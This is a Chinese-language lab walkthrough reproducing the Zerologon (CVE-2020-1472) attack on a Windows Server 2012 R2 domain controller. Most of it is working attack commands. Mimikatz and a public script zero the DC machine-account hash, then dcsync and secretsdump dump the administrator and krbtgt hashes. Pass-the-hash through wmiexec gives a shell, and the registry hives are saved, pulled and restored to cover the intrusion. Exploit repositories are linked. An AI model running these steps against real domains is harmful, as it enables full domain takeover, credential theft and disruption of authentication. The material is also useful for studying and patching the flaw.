

# Zerologon

ZeroLogon (CVE-2020-1472) 影响域内登录认证协议Netlogon (MS-NRPC) 中所使用的加密身份验证方案 (AES-CFB8)，在通过NetLogon协议与AD域控建立安全通道时，强行登录尝试，对全零的纯文本应用AES-CFB8加密将导致全零的密文，从而可以绕过正常认证，进一步可获取域管理员HASH，获取域管权限。

影响系统版本：

- Windows Server 2008 R2 for x64-based Systems Service Pack 1
- Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
- Windows Server 2012
- Windows Server 2012 (Server Core installation)
- Windows Server 2012 R2
- Windows Server 2012 R2 (Server Core installation)
- Windows Server 2016
- Windows Server 2016 (Server Core installation)
- Windows Server 2019
- Windows Server 2019 (Server Core installation)
- Windows Server, version 1903 (Server Core installation)
- Windows Server, version 1909 (Server Core installation)
- Windows Server, version 2004 (Server Core installation)

复现环境win7+winserver 2012 r2，域内另外一台win10虚拟机起代理方便访问到域控

漏洞利用过程中会重置域控存储在域中(ntds.dit)的凭证，而域控存储在域中的凭证与本地的注册表/lsass中的凭证不一致时，会导致目标域控脱域，所以在重置完域控凭证后要尽快恢复。

# 利用过程

## 严重漏洞是否存在

可以用在线的工具来识别systeminfo


这台机器是存在zerologon的

**Mimikatz**

```
lsadump::zerologon /target:<dc-ip> /account:<主机名>$
lsadump::zerologon /target:192.168.1.10 /account:DC$
```


## 置空域控Hash

**域控的机器帐户HASH存储在注册表中，系统启动时会将其加载到lsass，当攻击置空域控HASH后，仅AD (NTDS.DIT) 中的密码会更改，而不是注册表或加载到lsass中的密码，这样将会导致域控脱域，无法使用Kerberos进行身份验证，因此要尽快恢复。**

**mimikatz**

```
lsadump::zerologon /target:<dc-ip> /account:<主机名>$ /exploit
lsadump::zerologon /target:192.168.1.10 /account:DC$ /exploit
```



可以直接用脚本https://github.com/VoidSec/CVE-2020-1472一键置空，不过置空的话还是推荐mimikatz

```
python3 cve-2020-1472-exploit.py <主机名> 192.168.159.149
# 主机名也就是扫出的机器名称，对应的会有一个主机名$账户
```

## 导出Hash

```
导出域管hash，这里我们一般去导出administrator的hash
lsadump::dcsync /domain:<domain> /dc:<DC server> /user:<想要导出hash的user，如：administrator> /authuser:<计算机名>$ /authdomain:<domain> /authpassword:"" /authntlm
例如：
lsadump::dcsync /domain:town.domain /dc:dc.town.domain /user:krbtgt /authuser:DC$ /authdomain:town /authpassword:"" /authntlm

lsadump::dcsync /domain:town.domain /dc:DC /user:administrator /authuser:DC$ /authdomain:town /authpassword:"" /authntlm
```


再置空hash后，可以免密获得域管Administrator的hash，或者直接用impacket来导出所有hash，我习惯应用impacket里面的脚本

```
python secretsdump.py town/主机名$@主机IP -just-dc -no-pass

python secretsdump.py town/DC$@192.168.1.10 -just-dc -no-pass
```


可以看到DC的hash被置为了`31d6cfe0d16ae931b73c59d7e0c089c0`，这是空值的hash

## 恢复域控HASH

拿到hash后我们就可以通过wmiexec，psexec等来获取域控的权限

Mimikatz恢复域控HASH是将NTDS.DIT中的凭证以及注册表/lsass中的凭证同时修改为 (`Waza1234/Waza1234/Waza1234`)，并非是原本值，虽然不影响域运行，但是还是留下了痕迹。

推荐方法是恢复成原始的HASH，首先要获取注册表信息中域控原始HASH，可以利用Impacket包中的wmiexec.py、psexec.py工具获取，以wmiexec.py为例，命令中进行了HASH传递，凭证是刚刚获取的域管HASH：即administrator的hash

```
537e99775e584cef8b4151b859f7640a
```

```
获取shell
python wmiexec.py -hashes :537e99775e584cef8b4151b859f7640a town/administrator@192.168.1.10
```


接下来执行以下代码恢复hash

```
# 获取注册表转储文件，默认存在目标机C:\目录下
# 目标机中文系统会提示解码错误，不影响使用
# /y:强制覆盖已存在文件，避免目标机C:\目录下存在同名文件，命令会询问是否覆盖，半交互环境程序会卡住
C:\>reg save HKLM\SYSTEM system.hive /y    
C:\>reg save HKLM\SAM sam.hive /y         
C:\>reg save HKLM\SECURITY security.hive /y

# 将转储文件，下载到本地
C:\>lget system.hive                    
C:\>lget sam.hive
C:\>lget security.hive

# 删除目标机上的转储文件
C:\>del /f system.hive                 
C:\>del /f sam.hive
C:\>del /f security.hive

C:\>exit

# 通过注册表转储导出HASH
python secretsdump.py -sam sam.hive -system system.hive -security security.hive LOCAL
```


这里可以看到域控密钥和空的hash不同，**上一步中获取的是NTDS.DIT中域控HASH记录，而这一步获取的是注册表中HASH记录**

然后用工具将HASH恢复，将注册表中HASH记录同步到NTDS.DIT：

https://github.com/dirkjanm/CVE-2020-1472

```
python restorepassword.py town/dc@dc -target-ip 192.168.1.10 -hexpass 11bde758e059a8bf49c150ea6b2246e97a3f725eab4c48067a48053e4015969b55a1d89bb87b468c259a312eade5d542d553461756dcefca034d985ced70e8e58a29ad87786018573597023f97f0e3760c403f73e3fa52c9934e4f6bb0915b252692537145e29b248d04e8b620610fbf13efdbb80eafec00c0487038920d74f6fa31d3b266e710e7f52048318f03b42732d91f0b49db5b7152207d8e8042d2f0aecbc953f1eb1bc9b4f690453f89156f10ff08748fdc687d29cf1699f08b367b04360a0bde66dd538f355e3ab4b111cc01385c5bcf9268265421f1242cc8b3d6b8e37aff2abb3f555c8e3382b189a0f0
```


再来看就获取不到了，认证失败


```
python secretsdump.py -hashes :11e5881c03053b028765c25eb293d470 town/DC$@192.168.1.10
```


使用DC恢复的hash去dump成功


而且另外一台win10的虚拟机也重新连接到域

# 写在最后

zerologon的原理其实就是利用漏洞将DC账户的hash置空，这样就可以强制去获取administrator的hash，因为这样做会脱域，最后再将hash恢复，我们可以使用wmiexec等直接用administrator的hash获取域控的权限，横向的手段其实就是PTH


参考链接

https://www.cnblogs.com/CoLo/p/14624772.html#0x03-pth-of-mimikatz

https://blog.csdn.net/Captain_RB/article/details/120643838

脚本：

https://github.com/fortra/impacket/releases/tag/impacket_0_11_0

https://github.com/VoidSec/CVE-2020-1472

https://github.com/dirkjanm/CVE-2020-1472